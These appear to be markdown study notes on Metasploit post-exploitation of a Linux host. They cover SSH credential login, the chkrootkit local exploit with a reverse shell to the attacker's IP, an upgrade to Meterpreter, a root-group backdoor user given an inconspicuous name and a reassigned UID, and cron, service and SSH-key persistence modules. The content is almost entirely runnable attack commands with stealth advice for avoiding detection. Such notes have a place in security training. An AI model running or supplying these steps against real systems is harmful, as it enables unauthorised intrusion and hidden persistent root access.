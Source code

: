 * PRACTICAL
* Repeat steps till db_nmap
* `use auxiliary/scanner/ssh/ssh_login`
* `set username [uname]`
* `set password [pword]`
* `run`
* **Exploiting the vulnerability in CHKROOTKIT**
  * `use exploit/unix/local/chkrootkit`
  * `set session [ID]`
  * `set chkrootkit /bin/chkrootkit`
  * `set payload cmd/unix/reverse`
  * `set lhost [attacker's IP]`
  * `run` --> Command shell
  * `sessions -u [ID]` -- > Meterpreter session
 
  * Inside Meterpreter
  * `shell`
  * `/bin/bash -i`
  * `cat /etc/passwd`
  * While creating a new user, create a username that would blend in and doesn/t raise suspicion.
  * `useradd -m [Legit name like ftp] -s /bin/bash`
  * `passwd [uname]`
  * Now we need to add this user to the Root group:
  * `usermod -aG root ftp`
  * Check it --> `groups [uname]`
 
  * Utilize this backdoor user to authenticate legitimately to the system as this user is par t of the root group and any user on a Linux system with root privileges can do:
    * Creating a persistent service
    * Creating a Cron job, OR
    * Adding a SSH key to the actual SSH directory within the user's home directory.
   
  * **To make a user ID look like it wasn't created recently**:
    * As the most recent ID's have higher chances of catching eyes, for eg if the last user was 1001, our new user will have ID 1002:
    * `usrermod -u 13 [uname]`
    * Check --> `cat /etc/passwd`
   
  * **Persistence module**
    * `use exploit/linux/local/apt_package_manager_persistence`
    * This module will run a payload when the package manager is used.
    * No handler is ran automatically so you must configure an appropriate exploit/multi/handler to connect.
    * This module creates a pre-invoke hook for APT in apt.conf.d. The hook name syntax is numeric followed by text.
    * We will not use this module as we don't want to rely on an instance . We need some exploit that is running continuously even after some interruption.
    * ***
    * `use exploit/linux/local/cron_persistence`
    * `set session [ID]`
    * `set lhost [IP]`
    * Windows has greater chance of running the Cron jobs successfully than a Linux system
    * This one can do the job but being a CRON job it can be easily spotted on the target.
    * ***
    * `use exploit/linux/local/service_persistence`
    * `set session [ID]`
    * `set payload cmd/unix/reverse_python`
    * `set lhost [IP]`
    * `set lport [port]`
    * `run`
    * This also might not work.
    * ***
    * `use post/linux/manage/sshkey_persistence`
    * This module will add an SSH key to a specified user (or all), to allow remote login via SSH at any time.
    * SSH public key added to a user's home directory is hardly noticed by the user, so hard to raise any  suspicions.
    * It will setup a private and public SSH key pair --> Provide the public key to get a private key from this module --> Which can be provided to authenticate.
    * `set createsshfolder true` -->If no .ssh folder is found, create it for a user
    * `set session [ID]`
    * `run`
    * `loot`
    * `cat [path to the private key]`
    * **Utilize the private key**
    * `exit -y`
    * `vim ssh_key`
    * Paste the private key
    * `chmod 0400 ssh_key` --> permission for a private key
    * `ssh -i ssh_key [username like root]@[Target IP]` -->This should log you in to the target
